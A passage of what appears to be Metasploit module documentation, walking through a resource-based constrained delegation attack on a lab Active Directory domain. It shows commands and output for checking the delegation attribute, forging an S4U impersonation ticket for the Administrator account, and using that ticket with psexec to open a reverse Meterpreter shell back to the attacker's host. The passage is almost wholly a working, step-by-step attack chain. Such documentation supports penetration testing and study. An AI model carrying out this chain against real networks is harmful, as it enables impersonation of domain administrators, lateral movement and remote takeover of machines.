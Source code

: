 Reading the value of `msDS-AllowedToActOnBehalfOfOtherIdentity` to verify the value is updated:

```msf
msf6 auxiliary(admin/ldap/rbcd) > read
[*] Running module against 192.168.159.10

[+] Successfully bound to the LDAP server!
[*] Discovering base DN automatically
[+] 192.168.159.10:389 Discovered base DN: DC=msflab,DC=local
[*] Allowed accounts:
[*]   DESKTOP-QLSTR9NW$ (S-1-5-21-3402587289-1488798532-3618296993-1655)
[*] Auxiliary module execution completed
msf6 auxiliary(admin/ldap/rbcd) >
```

Next we can use the `auxiliary/admin/kerberos/get_ticket` module to request a new S4U impersonation ticket for the Administrator
account using the previously created machine account. For instance requesting a service ticket for SMB access:

```msf
msf6 auxiliary(admin/kerberos/get_ticket) > run action=GET_TGS rhost=192.168.159.10 username=DESKTOP-QLSTR9NW password=A2HPEkkQzdxQirylqIj7BxqwB7kuUMrT domain=msflab.local spn=cifs/ws01.msflab.local impersonate=Administrator
[*] Running module against 192.168.159.10

[+] 192.168.159.10:88 - Received a valid TGT-Response
[*] 192.168.159.10:88 - TGT MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230222095449_default_192.168.159.10_mit.kerberos.cca_533930.bin
[*] 192.168.159.10:88 - Getting TGS impersonating Administrator@msflab.local (SPN: cifs/ws01.msflab.local)
[+] 192.168.159.10:88 - Received a valid TGS-Response
[*] 192.168.159.10:88 - TGS MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230222095449_default_192.168.159.10_mit.kerberos.cca_962080.bin
[+] 192.168.159.10:88 - Received a valid TGS-Response
[*] 192.168.159.10:88 - TGS MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230222095449_default_192.168.159.10_mit.kerberos.cca_614556.bin
[*] Auxiliary module execution completed
```

The saved TGS can be used in a pass-the-ticket style attack. For instance using the `exploit/windows/smb/psexec` module for a reverse shell:

```msf
msf6 exploit(windows/smb/psexec) > run lhost=192.168.123.1 rhost=192.168.159.10 username=Administrator smb::auth=kerberos smb::rhostname=ws01.msflab.local domaincontrollerrhost=192.168.159.10 smbdomain=msflab.local smb::krb5ccname=/Users/user/.msf4/loot/20230222095449_default_192.168.159.10_mit.kerberos.cca_614556.bin

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] 192.168.159.10:445 - Connecting to the server...
[*] 192.168.159.10:445 - Authenticating to 192.168.159.10:445|msflab.local as user 'Administrator'...
[*] 192.168.159.10:445 - Loaded a credential from ticket file: /Users/user/.msf4/loot/20230222095449_default_192.168.159.10_mit.kerberos.cca_614556.bin
[*] 192.168.159.10:445 - Selecting PowerShell target
[*] 192.168.159.10:445 - Executing the payload...
[+] 192.168.159.10:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175686 bytes) to 192.168.159.10
[*] Meterpreter session 3 opened (192.168.123.1:4444 -> 192.168.159.10:60755) at 2023-02-22 10:00:01 +0000

meterpreter >
```

